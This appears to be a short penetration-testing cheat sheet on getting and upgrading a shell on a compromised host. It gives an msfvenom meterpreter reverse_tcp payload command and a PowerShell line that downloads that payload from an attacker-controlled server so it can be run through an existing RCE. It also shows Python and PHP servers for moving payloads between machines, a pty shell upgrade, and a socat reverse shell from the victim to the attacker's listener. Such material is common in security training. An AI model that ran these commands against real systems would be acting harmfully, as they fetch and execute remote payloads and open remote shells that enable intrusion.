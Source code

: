 ## Some useful tricks that could be useful to get a shell

#### 1. I have a RCE on windows box and I need to get a shell... Wget with Powershell!

* Obtain your payload with msfvenom or similar:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```

* Execute through your RCE on windows box:

```
command = "PowerShell -Command \"wget 'http://your_controlled_server/payload.exe' -OutFile reverse.exe\"" # command to run with RCE
```

Execute your payload (now called "reverse.exe") using RCE and setup a listening with msf multi-handler.

*Obs: Obviously, this method may not work well due to permission conditions and so on. This is out-of-scope... it's just a trick! :-)*

#### 2. I need to transfer files (like my payloads) between VMs/hosts

* You can setup a simple web server using Python or PHP.
	+ Python:

	```python
	python -m SimpleHTTPServer 8080
	```
	
	And a simple HTTP server will be listening on your 8080 TCP port.
	
	+ PHP:

	```php
	php -S 127.0.0.1:8080
	```
	And a simple HTTP server will be listening on 127.0.0.1:8080.
	
#### 3. Upgrading simple shells to TTYs (or something close to it)

* Python with "pty":

```python
python -c "import pty;pty.spawn('/bin/bash');"
```
* Socat

On your localhost (attacker):

```
socat file:`tty`,raw,echo=0 tcp-listen:443
```

On your victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST_IP>:443
```

## Interesting links to read!

https://blog.ropnop.com/transferring-files-from-kali-to-windows/ (A lot of techniques to transfer files from attacker machine to a windows box)

